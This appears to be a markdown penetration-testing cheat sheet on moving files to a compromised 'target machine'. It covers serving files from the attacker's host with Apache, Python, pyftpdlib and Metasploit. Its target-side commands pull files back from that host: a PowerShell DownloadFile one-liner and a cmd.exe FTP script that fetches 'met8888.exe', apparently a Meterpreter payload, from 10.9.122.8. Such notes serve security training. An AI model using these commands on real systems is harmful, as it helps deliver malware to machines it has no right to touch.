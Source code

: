 # File Transfer

File can either be transferred by:
* Push file to target
* Have the target to pull file back

###<span style="color:green">HTTP</span>

**On attacker machine**:

####<span style="color:green">Apache</span>

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start


####<span style="color:green">Python</span>

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer [port no]

**On target machine**:
> http://your_ip_address:your_port_num/filename

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

> powershell -c "<span style="color:blue">(new-object System.Net.WebClient).DownloadFile('http://your_ip_address:your_port_num/filename','C:\Users\dest_path\file_name')</span>"

or use cmd.exe to trigger IE

> cd Program Files\Internet Explorer
> start iexplore.exe [http://ip address/file]

###<span style="color:green">FTP</span>

####vsftpd/pytftpd

**On attacker machine**:


`vsftpd` or simply the `pytftpd` library

> apt-get install python-pyftpdlib  

> python -m pyftpdlib -p [port_num]

default port is 2121

`-w` can grant the user write access

####Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

> use auxiliary/server/ftp

> set FTPROOT /root/shells

> exploit

Can be kill with:
> jobs -k [id]

**On target machine**:

Type it into your cmd.exe

>echo open <span style="color:blue">10.9.122.8</span>\>ftp_commands.txt  
>echo anonymous>>ftp_commands.txt  
>echo whatever>>ftp_commands.txt  
>echo binary>>ftp_commands.txt  
>echo get met8888.exe>>ftp_commands.txt  
>echo bye>>ftp_commands.txt  
><span style="color:blue">ftp -s:ftp_commands.txt</span> 
